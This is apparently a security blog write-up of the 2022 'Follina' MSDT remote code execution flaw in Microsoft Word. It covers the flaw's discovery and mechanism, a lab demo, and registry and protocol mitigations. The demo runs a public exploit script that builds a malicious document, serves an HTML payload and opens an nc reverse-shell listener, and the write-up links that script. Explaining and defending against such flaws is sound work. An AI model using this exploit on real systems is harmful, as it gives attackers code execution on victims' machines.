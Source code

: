 # CVE-2022-30190 MS-MSDT with Follina Attack Vector 

> Deniz Koc | June 9, 2022

--------------




On May 30, 2022, Microsoft issued CVE-2022-30190 regarding the Microsoft Support Diagnostic Tool (MSDT) in Windows vulnerability.It is basically a remote code execution technique used through MSDT and MS Office program, namely Microsoft Word. This attack takes place using malicious Word documents that execute PowerShell commands via the Microsoft Diagnostic Tool (MSDT). The ‘Follina’ zero-day features a remote code execution that works without elevated privileges, does not require macro enablement to execute binaries or scripts, and can bypass Windows Defender detection.



# How it entered the radar?

![Screenshot from 2022-06-09 03-01-49](https://user-images.githubusercontent.com/74410580/172809166-2b45b02b-9dc1-44a2-9fd3-e8e6f6d89ca7.png)


On may 27, there was a tweet by Nao-sec who is security researcher trying different attack vectors targeting cve 2021-40444 which was a previous vulnerability taking advantage mhtml(MIME encapsulation of aggregate HTML document) protocol to get initial access with just a simple office document.

Nao-sec found some compelling document which was using external reference inside the MS word document that would call out to an external HTML file. That HTML file would stage and load powershell code using MSDT Uniform Resource Identifier (URI)  protocol in windows. 



A former Microsoft employed security researcher Kevin Beaumont named the vulnerability “Folina,” because the 0 day code references 0438, that's the place code for Follina, Italy. Beaumont referred to that Defender for Endpoint did now no longer hit upon the exploit, which retrieves an HTML file from a remote webserver and lets in PowerShell code execution.


# Explanation of the exploit

This attack vector only needs one thing which a user downloads a malicious office documents and they open it or just navigate to it.
I myself use my ubuntu machine and and download python file that is from John Hammond github page https://github.com/JohnHammond/msdt-follina 

To create malicious word document and stage a payload with an http server 


```
$ python3 follina.py -i (network interface) -r (port number for reverse shell)  
[+] copied staging doc /tmp/g5y17w2c
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
[+] starting 'nc -lnvp 9001
Listening on 0.0.0.0 9001

```
<br> 


![Screenshot from 2022-06-09 01-46-32](https://user-images.githubusercontent.com/74410580/172817080-43919074-fcaf-4af0-b690-ee3cba32d059.png)



<br>

On windows machine as a victim, open up microsoft word documents as you might any other document except this one in particular includes external reference to an another location and executes it.



![Untitled](https://user-images.githubusercontent.com/74410580/172826268-6170639b-cea7-4639-bef7-dec20a7e7f84.png)

<br>
As expected after running the document on victim machine, it offered initial access under the the priveleges and permissions of the user account that invoked microsoft word.


# How far Could this exploit go further in the wild?

Well, it might seem very low privelege when I showcased on my virtual machine but it opens the door for threat actor to do lateral movement or upload persistence to maintain access, even escalate priveleges so that they become the administrator,root account etc.

To explain, an html file inside the word document was retrieving by windows machine is the key element of MS RCE(remote code execution) because it includes invoking payload which eventually staging powershell code to be executed encoded in base 64. To see the powershell client script a little bit clearly here is below the encoded and decoded status of the powershell commands inside this html file.


![Screenshot from 2022-06-09 14-00-15](https://user-images.githubusercontent.com/74410580/172833699-01276317-f19e-4049-95e1-5994824faddd.png)

<br>
Considering these powershell commands,a typical adversory behaviour would be fishing campaing, stealing information from local browsers, mail clients and file services, conducts machine recon and then zips it for exfil.Moreover this remote code execution actually can derived into whatever an adversory want.That could be remote access trojan or cryptocurrency miner or ransomware, name it.

# Mitigation Suggestions

Microsoft has recently released guidance on disabling the Microsoft Diagnostic Tool (MSDT) URL protocol. The Microsoft Support Diagnostic Tool (MSDT) is a tool designed to collect information to send to the Microsoft Support but it’s currently unclear how Microsoft intends to respond to the discovery and how quickly a patch will be made available.

![Screenshot from 2022-06-09 15-10-46](https://user-images.githubusercontent.com/74410580/172843719-b5564cf1-6b3b-4ae8-8a0a-247d2c561fcf.png)

<br>

Another option would be to remove the file type association for ms-msdt (can be done in Windows Registry HKCR:\ms-msdt. When the malicious document is opened, Office will not be able to invoke ms-msdt thus preventing the malware from running. Be sure to make a backup of the registry settings before using this mitigation. for more information https://twitter.com/DidierStevens/status/1531033449561264128


# Conclusion

There is currently no available legit patch that would come from Microsoft. Until that time,what we learn is that, the indusrty will have a hard time to inspect incoming impact of threats. This vulnerability is brand new, simple and a current zero day that has no concrete fix.




